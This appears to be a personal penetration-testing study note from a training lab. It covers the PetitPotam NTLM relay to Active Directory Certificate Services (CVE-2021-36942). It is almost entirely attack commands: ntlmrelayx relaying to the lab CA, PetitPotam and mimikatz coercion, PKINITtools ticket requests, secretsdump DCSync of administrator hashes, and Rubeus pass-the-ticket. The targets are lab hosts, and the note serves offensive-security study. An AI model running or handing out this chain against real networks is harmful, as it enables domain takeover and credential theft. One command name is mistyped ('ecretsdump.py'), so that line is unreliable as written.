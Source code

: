 ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942))

on our attack host: 
```shell-session
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```
in another window run petitipotam.py
`python3 PetitPotam.py <attack host IP> <Domain Controller IP>`

for windows we can run it on mimikatz also:
`misc::efs /server:<Domain Controller> /connect:<ATTACK HOST>`.

or there is a powershell implementation of petitpotam as well

go back to the htlmrelayx widow and see if the base64 certificate of user the DC Controller  is there

then we get the TGT
```shell-session
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
it will be saved to a file where we need to set it as the environment variable
```shell-session
export KRB5CCNAME=dc01.ccache
```
then we perform a DCSync and retrieve the NTLM password hashes for the domain
```shell-session
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
can use [[Crackmapexec]] with the hash to see if the credential is correct. From here, we have compete control over the domain. 

we can also try to submit a tgs request after getting the TGT
```shell-session
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```

then we can use the hash we get to perform a DCSync 
```shell-session
ecretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```

Alternatively, once we obtain the base64 certificate via ntlmrelayx.py, we could use the certificate with the Rubeus tool on a Windows attack host to request a TGT ticket and perform a pass-the-ticket (PTT) attack all at once.
```powershell-session
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt
```

can also perform a [DCSync](3%20Exploitation/Active%20Directory%20Attacks/DCSync.md) with mimikatz
